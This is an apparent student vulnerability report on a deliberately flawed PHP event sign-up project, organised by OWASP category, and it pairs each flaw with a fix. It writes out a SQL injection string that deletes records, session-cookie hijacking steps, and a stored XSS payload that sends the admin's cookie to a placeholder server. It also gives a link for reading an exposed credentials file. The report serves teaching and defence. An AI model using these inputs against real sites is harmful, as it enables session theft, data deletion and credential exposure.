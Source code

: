 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with this code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1-Injection

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) will also fix the problem in this case.
## A2-Broken Authentication and Session Management
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption.<br> 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.

### How to identify (broken session management)
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Capture the cookie-session-id with OWASP ZAP. 
2. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
4. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

### How to fix
Use SSL for the website (see the link in Readme for details)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).<br>
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 

## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify (stored XSS)
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
HTML codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Again, use SSL (see the link in Readme for details)! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard<br>
Regarding the session cookie and admin credentials, see the A2-fix.

## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
### How to fix
Deny access to the config.ini file, in one way or another. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
